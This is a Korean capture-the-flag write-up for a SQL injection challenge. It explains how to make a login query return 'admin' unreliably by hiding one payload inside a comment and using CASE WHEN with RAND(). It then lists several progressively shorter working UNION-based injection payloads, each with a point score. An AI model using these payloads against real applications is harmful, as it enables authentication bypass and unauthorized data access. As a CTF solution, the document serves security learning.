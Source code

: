 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-03-23-40.png)


# **Write-Up**

다음을 유의하며 쿼리를 짜야한다.

1. query는 작은 따옴표가 없고 query2는 작은 따옴표가 존재한다.

2. query의 결과가 admin이면서 admin이 아니여야한다. 즉, 쿼리 실행 시 마다 결과가 달라져야 한다.

1번은 주석을 통해 우회하고, 2번은 IF를 사용할 수 없으며로 CASE WHEN THEN END절과 RAND를 이용한다.

    /*' UNION SELECT CASE WHEN RAND()>0.5 THEN 0x61646d696e END "id"%23'*/1 UNION SELECT CASE WHEN RAND()>0.5 THEN 0x61646d696e END "id"

RAND를 이용하기 때문에 모든 조건문을 통과할 때까지 새로고침을 눌러준다.

![](images/2022-01-03-03-23-57.png)

    80점 쿼리 : /*' UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id%23'*/1 UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id

    90점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id%23*/1 UNION SELECT CASE WHEN RAND()>0.5THEN 0x61646d696e END id

    100점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END id%23*/1 UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END id

    130점 쿼리 : /*'UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END%23*/1 UNION SELECT CASE WHEN RAND()>.5THEN 0x61646d696e END

    175점 쿼리 : 0 union select replace(round(rand()),1,0x61646d696e)%23'union select replace(round(rand()),1,0x61646d696e)%23

    315점 쿼리 : 0 union select elt(rand()*2,@a:=0x61646d696e)%23'union select elt(rand()*2,@a)%23